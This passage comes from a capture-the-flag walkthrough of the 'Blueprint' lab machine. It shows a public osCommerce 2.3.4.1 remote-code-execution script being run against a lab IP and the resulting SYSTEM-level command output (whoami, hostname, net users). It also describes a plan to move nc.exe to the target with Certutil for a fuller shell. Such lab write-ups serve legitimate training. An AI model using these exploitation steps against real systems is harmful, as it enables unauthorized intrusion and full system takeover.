 Lets give this exploit a try!

### Exploitation

We can launch the exploit, which should give us the ability to execute commands on the machine:

```text
┌──(ryan㉿kali)-[~/THM/Blueprint]
└─$ python osCommerce2.3.4.1-rce.py http://10.10.150.16:8080/oscommerce-2.3.4/catalog
[*] Install directory still available, the host likely vulnerable to the exploit.
[*] Testing injecting system command to test vulnerability
User: nt authority\system

RCE_SHELL$ whoami
nt authority\system

RCE_SHELL$ hostname
BLUEPRINT

RCE_SHELL$ net users

User accounts for \\

-------------------------------------------------------------------------------
Administrator            Guest                    Lab                      
The command completed with one or more errors.
```

Nice it worked! And it gave us a shell as nt authority\system as well!

Note: I ran this exploit against port 8080 to bypass issues I was getting with the self-signed certificate on port 443.

This pseudo-shell is nice, but I would rather have a proper shell. Let's use Certutil to transfer over nc.exe to the target:

![transfer.png](../assets/blueprint_assets/transfer.png)
